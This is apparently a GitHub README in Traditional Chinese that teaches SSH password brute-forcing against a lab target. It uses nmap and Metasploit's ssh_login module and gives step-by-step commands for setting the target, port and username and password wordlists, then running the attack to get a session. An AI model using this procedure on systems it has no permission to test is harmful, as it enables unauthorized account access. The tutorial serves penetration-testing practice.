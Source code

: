 # brute-force SSH login
使用Metasploit暴力猜測ssh的登入帳密。

## **環境&工具**
* 一台Kali Linux
* 一台有ssh服務的靶機
* 一個字典檔

## **破解流程**
* step1：針對目標機器做掃描，掃描這台主機有開那些服務
  * 這邊使用nmap這套工具做掃描，檢測目標主機是否在線上、port開放的情況
  * nmap其他相關指令請參考https://zh.wikipedia.org/zh-tw/Nmap
    > ```shell
    > namp -sV xxx.xxx.xxx.xxx
    > ```
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/1.png)
* step2：開啟Metasploit
    > ```shell
    > msfconsole
    > ```
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/2-1.png)
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/2-2.png)
* step3：開啟Metasploit這套工具尋找模組腳本
  * 這邊使用模組名稱是`auxiliary/scanner/ssh/ssh_login`
    > ```shell
    > search ssh_login
    > ```
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/3.png)
* step4：查看使用的模組腳本需要設定的參數
  * 這邊四個重要的參數必須設定，`目標主機IP`、`目標主機port號`、`使用者帳號`、`使用者密碼`
  
    > ```shell
    > option
    > ```
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/4.png)
* step5：設定目標主機IP
    > ```shell
    > set rhost xxx.xxx.xxx.xxx
    > ```
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/5.png)  
* step6：目標主機port號
    > ```shell
    > set rport xx
    > ```
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/6.png)
* step7：設定使用者帳號密碼
  * 設定使用者帳號及使用者密碼的方式有三種，`利用username及password的字典檔`、`分別給username及password的字典檔`、`直接設定username及password`

  * 利用username及password的字典檔  
    > 檔案格式為
    > 
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/7.png)   
    > ```shell
    > set userpass_file [檔案路徑]
    > ```
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/8.png)    

  * 分別給username及password的字典檔 
    > 檔案格式為
    > 
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/9.png)   
    > ```shell
    > set user_file [檔案路徑]
    > ```
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/10.png)   
    > ```shell
    > set pass_file [檔案路徑]
    > ```
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/11.png)     
  
  * 直接設定username及password  
    > ```shell
    > set username [名稱]
    > set password [密碼]
    > ```
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/12.png)   

  ```
  設定使用者帳號密碼，可使用字典檔也可自行輸入，可搭配自行輸入及字典檔的組合，更快速的找到登入的帳密。
  ```

* step8：執行暴力猜測ssh的登入帳密
    > ```shell
    > exploit
    > ```
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/13.png)
  * 執行成功後會有一個session存在著
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/14.png)

## **References**
* https://charlesreid1.com/wiki/Metasploitable/SSH/Exploits
